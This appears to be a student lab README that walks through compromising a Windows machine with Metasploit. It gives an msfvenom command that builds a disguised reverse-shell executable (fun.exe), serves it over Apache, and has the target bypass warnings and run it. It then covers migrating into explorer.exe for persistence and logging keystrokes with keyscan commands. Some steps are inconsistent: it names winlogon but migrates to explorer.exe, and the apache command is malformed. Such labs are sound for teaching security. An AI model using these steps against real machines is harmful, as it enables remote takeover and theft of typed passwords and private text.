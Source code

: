 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
### OUTPUT
![output1](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/ddd8fb05-b303-4325-9a04-fcacb619212d)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
### OUTPUT
![output2](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/5ca8eda2-34af-46f3-8314-d833e4f8ef94)

copy the fun.exe into the apache /var/www/html folder
![output3](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/95ef7221-1f2f-4dd7-bf2a-275d9ae228e2)


Start apache server
sudo systemctl apache2 start
![output4](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/60283a2f-6151-4ef0-9787-80ca07b0813f)

Check the status of apache2
![output5](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/15a4310c-53fb-4d4b-9cbb-5197e04267a2)

Invoke msfconsole:
## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
Starting a command and control Server
![output6](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/6edb6ad6-e7b3-499f-825a-3cc7b9755497)

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![output7](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/4c3aba77-9ffd-4b65-b368-7e12a2a950c1)

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![output8](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/6df34384-4d46-45dc-bdcd-bc803254f5b5)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![output9](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/84e2c2ee-bf5b-4637-822a-478cb9df9d16)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![output10](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/390dc2bf-96dd-4951-a17d-3d8bfb80811e)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![output11](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/d12cda23-1546-432d-898c-fc8892e4851c)


keyscan_dump	Shows the keystrokes captured so far
![output12](https://github.com/viswapriyaG/Compromising-windows-using-Metasploit/assets/131427787/9a4ffe75-1988-4bb1-aced-26986f8edac3)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
